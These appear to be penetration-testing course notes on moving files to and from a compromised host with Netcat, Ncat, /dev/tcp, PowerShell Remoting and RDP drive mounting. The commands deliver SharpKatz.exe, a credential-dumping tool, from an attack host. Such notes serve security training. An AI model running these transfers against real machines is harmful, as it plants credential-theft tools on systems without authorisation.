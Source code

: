 ## File Transfer with Netcat and Ncat
#### NetCat - Compromised Machine - Listening on Port 8000
```sh
$ # Redirect stdout with > to SharpKatz.exe
$ nc -l -p 8000 > SharpKatz.exe
```

#### Ncat - Compromised Machine - Listening on Port 8000
```sh
# Close the connection (--recv-only) once file transfered
$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

#### Netcat - Attack Host - Sending File to Compromised machine
```sh
$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

*  The option `-q 0` will tell Netcat to close the connection once it finishes
* If we use Ncat in our attack host, we can use `--send-only` instead of `-q`. `--send-only` in both connect and listen modes causes Ncat to quit when its input runs out

#### Ncat - Attack Host - Sending File to Compromised machine
```sh
$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

#### Attack Host - Sending File as Input to Netcat
```sh
$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Compromised Machine Connect to Netcat to Receive the File
```sh
$ nc 192.168.49.128 443 > SharpKatz.exe
```

#### Attack Host - Sending File as Input to Ncat
```sh
$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connect to Ncat to Receive the File
```sh
$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

#### NetCat - Sending File as Input to Netcat
```sh
$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Ncat - Sending File as Input to Netcat
```sh
$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File
```sh
$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

## PowerShell Session File Transfer
* When HTTP, HTTPS, or SMB are unavailable
* We can use [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2), aka WinRM, to perform file transfer operations
* To create a PowerShell Remoting session
	* We need administrative access
	* Be a member of the `Remote Management Users` group
	* Or have explicit permissions for PowerShell Remoting in the session configuration

```powershell
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01
```

* Confirm WinRM port TCP 5985 is Open on

```powershell
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

* Store the results in the variable named `$Session`

```powershell
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```

#### Copy samplefile.txt from our Localhost to the DATABASE01 Session
```powershell
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

#### Copy DATABASE.txt from DATABASE01 Session to our Localhost
```powershell
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

## RDP
* Tools: `xfreerdp` or `rdesktop`
* Can be used to expose a local folder in the remote RDP session

#### Mounting a Linux Folder Using rdesktop
```sh
$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

#### Mounting a Linux Folder Using xfreerdp
```sh
$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

* To access the directory, we can connect to `\\tsclient\`

![](./Screenshots/Screenshot_2022-10-21_215825.png)

